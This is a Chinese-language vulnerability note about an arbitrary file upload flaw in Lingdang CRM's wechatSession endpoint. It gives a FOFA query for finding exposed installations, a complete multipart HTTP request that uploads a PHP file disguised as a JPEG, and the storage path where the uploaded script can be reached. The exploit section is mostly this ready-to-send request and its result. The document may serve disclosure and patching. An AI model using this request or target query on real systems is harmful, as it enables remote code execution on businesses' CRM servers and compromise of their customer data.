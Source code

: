 # 灵当crm wechatSession存在任意文件上传漏洞

# 一、漏洞简介
<font style="color:rgb(51, 51, 51);">灵当CRM（Customer Relationship Management，客户关系管理）是一款面向中小企业的客户关系管理软件，旨在帮助企业更好地管理客户信息、销售流程、市场营销和服务支持等方面的工作。灵当CRM提供了一系列工具和功能，帮助企业在销售、市场和服务部门之间实现高效协作，提高客户满意度和业务效率。灵当crm wechatSession存在任意文件上传漏洞。</font>

# 二、影响版本
+ 灵当crm

# 三、资产测绘
+ fofa`body="[http://localhost:8088/crm/index.php"](http://localhost:8088/crm/index.php") && body="ldcrm.base.js"`
+ 特征

![1722999861305-1e9e41ad-ed6a-4750-918d-61a0631ad06a.png](./img/_w2Gyv2xSYRBrMgJ/1722999861305-1e9e41ad-ed6a-4750-918d-61a0631ad06a-091281.png)

# 四、漏洞复现
```plain
POST /crm/wechatSession/index.php?token=9b06a9617174f1085ddcfb4ccdb6837f&msgid=1&operation=upload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Content-Type: multipart/form-data; boundary=---------------------------45250802924973458471174811279
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 10338

-----------------------------45250802924973458471174811279
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: image/jpeg

<?php phpinfo();?>
-----------------------------45250802924973458471174811279
```

![1728882630940-32cf6935-cb61-43f2-bb84-4062e86a1fea.png](./img/_w2Gyv2xSYRBrMgJ/1728882630940-32cf6935-cb61-43f2-bb84-4062e86a1fea-574633.png)

```plain
/crm//storage//wechatsession//2024//10//14//1.php
```

![1728882649323-7a5fedf2-fef6-49d3-a859-9f09ab4ab279.png](./img/_w2Gyv2xSYRBrMgJ/1728882649323-7a5fedf2-fef6-49d3-a859-9f09ab4ab279-976058.png)



> 更新: 2024-10-21 11:49:37  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fq1csz1qt7nm1lgc>